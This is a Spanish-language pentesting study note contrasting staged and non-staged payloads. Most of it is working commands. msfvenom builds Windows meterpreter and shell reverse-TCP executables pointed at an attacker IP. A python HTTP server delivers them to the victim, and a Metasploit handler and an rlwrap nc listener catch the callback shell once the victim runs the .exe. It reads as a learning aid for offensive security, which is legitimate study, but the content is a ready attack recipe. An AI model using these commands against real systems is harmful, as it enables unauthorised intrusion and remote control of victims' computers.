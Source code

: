 
----
- Tags: #Payloads #Staged #Non-Staged
----

> **Payload Staged**: Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.

**Un ejemplo del Staged es el siguiente:**
```Zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe
```
- Con este comando obtendríamos un ejecutable que debemos transferir a la maquina víctima 
**Lo compartimos a nivel de red:**
```python
python -m http.server 1212
```
- Para este punto ya deberíamos tener comprometida la maquina eh ingresar por el navegador por la ip del atacante por el puerto 1212 y descargar la reverse.exe
**Iniciamos Metasploit**
```zsh
msfdb run
```
**En el interprete ingresamos los siguientes comandos:**
```Metasploit
>>use exploit/multi/handler
>>set payload windows/x64/meterpreter/reverse_tcp
>>show options
>>set LHOST 192.168.111.45
>>set LPORT 4646
>>run
```
- En este punto ponemos a correr el archivo reverse.exe en la maquina victima para obtener acceso.

> **Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.

**Ejemplo de Non-Staged:**
```Metasploit
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o shell.exe
```

**Compartimos un servidor HTTP:**
```python
python3 -m http.server 1212
```

**Descargamos la shell por el puerto compartido y corremos metasploit:**
```Metasploit
msfdb run
>>use exploit/multi/handler
>>set payload windows/x64/meterpreter_reverse_tcp
>>show options
>>set LHOST 192.168.111.45
>>set LPORT 4646
>>run
```


- **TIPS: Tambien lo podemos realizar a través de ncat realizando casi el mismo proceso, solo en el comando hay que cambiar el meterpreter por shell**
  ejemplo:

 ```
 msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=192.168.111.45 LPORT=4646 -f exe -o shell.exe
 ```

   **Compartimos el archivo por el puerto 1212**
```python
python3 -m http.server 1212
```

- **Descargamos el archivo compartido por el puerto 1212 por la dirección 192.168.111.45:1212 en la maquina victima**
  
 **Nos ponemos en escucho con nc por el puerto 4646**
 ```zsh
 rlwrap nc -nlvp 4646
```

- Luego ejecutamos el archivo .exe en la maquina victima para poder tomar control de ella por nuestra shell ;)
- rlwrap nos permite realizar comandos como ctrl+l para limpiar y demas.
